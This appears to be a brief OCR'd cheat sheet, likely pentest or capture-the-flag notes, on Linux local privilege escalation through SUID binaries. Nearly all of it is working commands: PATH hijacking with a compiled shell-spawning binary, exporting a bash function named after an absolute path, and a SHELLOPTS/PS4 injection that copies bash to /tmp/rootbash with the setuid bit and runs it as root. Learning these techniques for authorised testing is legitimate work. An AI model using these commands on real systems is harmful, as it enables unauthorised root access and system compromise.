 # Example:

### 1: /usr/local/bin/example-env

### 2: strings /usr/local/bin/example-env

### 3: gcc -o service /path/to/file.c (The code spawns bash shell. Works only if the full path of the original executable is NOT being used)

### 4: PATH=.:$PATH /usr/local/bin/example-env

## TIP: 

### If the absolute path of an executable is used (strings) we can do:

#### 1: Check bash version: /bin/bash --version

#### 2: function /path/to/file {/bin/bash -p;}

#### 3: Run executable

### Example:

#### env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/example2-env

#### /tmp/rootbash -p
